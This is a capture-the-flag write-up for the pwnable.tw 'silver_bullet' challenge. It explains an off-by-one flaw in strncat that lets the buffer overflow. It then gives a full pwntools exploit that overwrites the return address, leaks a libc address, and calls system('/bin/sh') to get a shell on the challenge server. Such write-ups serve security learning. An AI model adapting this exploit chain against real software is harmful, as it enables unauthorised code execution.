 # 📌 silver_bullet - pwnable.tw

## 🔹 Vulnerability Analysis
### 📌 **Vulnerable Function: `strncat`**
The vulnerability resides in the **`strncat` function**, which is used for concatenating user-controlled input when "powering up" the bullet.

---

### 🛠️ **Breakdown of the Issue**
- The program allows creating **only one bullet** with a **maximum size of `0x30`** bytes.
- The **initial power** is determined by the length of the **first provided description**.
- When **powering up**, the new description is **concatenated** with the existing one.
- The problem arises from **`strncat`**, which expects a **destination buffer** of **size `n+1`**, since it writes `n` bytes and **appends a null terminator (`\x00`)**.
- If we concatenate **exactly `0x30` bytes**, the **31st (`0x31`) byte gets null-terminated**.
- The program then **updates the power level** based on the length of **only the new input**, instead of the full concatenated buffer.

---

### 💥 **Impact: Buffer Overflow**
This logic flaw **allows a buffer overflow**:
- **We can overwrite the return address**, which is **8 bytes past the power variable**.
- Since **the power variable is incorrectly updated**, we **can exceed `0x30` bytes** and write beyond the buffer.

---

### 🏴 **Exploitation Plan**
1. **Leak a libc address**  
   - Overwrite the return address to leak an address from the **libc**.
2. **Calculate `system` address**  
   - Using the leaked libc address, compute the base address and derive `system()`.
3. **Overwrite return address with `system()`**  
   - Redirect execution to `system("/bin/sh")`, gaining a shell.


## 🔹 Exploit Code
```python
#!/usr/bin/python3.10
from pwn import *

# p = process("./silver_bullet_patched")  
p = remote("chall.pwnable.tw", 10103)  


elf = ELF("./libc_32.so.6")


def create_bullet(p, desc):
    p.sendlineafter("Your choice :", "1")
    p.sendafter("bullet :", desc)
    p.recvuntil("Your power is : ")
    return int(p.recvline().strip().decode())

def power_up(p, desc):
    p.sendlineafter("Your choice :", "2")
    p.sendafter("bullet :", desc)
    p.recvuntil("new power is : ")
    return int(p.recvline().strip().decode())

def beat(p):
    p.sendlineafter("Your choice :", "3")
    p.recvuntil("HP : ")
    p.recvline()


power = create_bullet(p, 'A' * 47)
print(f"Initial power: {power}")


power = power_up(p, 'B' * (48 - power))

# overwrite ret addr
payload = b"\xff\xff\xff"
payload += b"a" * 4  # Padding
payload += p32(0x8048733, "little")  # return to beat function so it can leak libc addr
payload += p32(0x08048954, "little") # saved return ptr to main
payload += p32(0x804afd4, "little")  # param1
payload += p32(0x804b01c, "little")  # param2

power = power_up(p, payload)

# Leak libc addr
beat(p)
p.recvuntil("+ NAME : ")
leak = p.recvline().strip()
libc_leak = int.from_bytes(leak[4:8], "little")

print(f"Leaked libc address: {hex(libc_leak)}")

# system() addr
libc_offset = 0x175ca7  # Offset from leak to system
system_addr = libc_leak - libc_offset
libc_base = system_addr - elf.symbols["system"]

print(f"system() address: {hex(system_addr)}")
print(f"Libc base: {hex(libc_base)}")

power = create_bullet(p, 'A' * 47)
power_up(p, 'B' * (48 - power))

payload = b"\xff\xff\xff"
payload += b"a" * 4  # Padding
payload += p32(system_addr, "little")
payload += p32(system_addr, "little")
payload += p32(libc_base + 0x158e8b, "little")  # "/bin/sh" address

power_up(p, payload)


beat(p)


p.interactive()
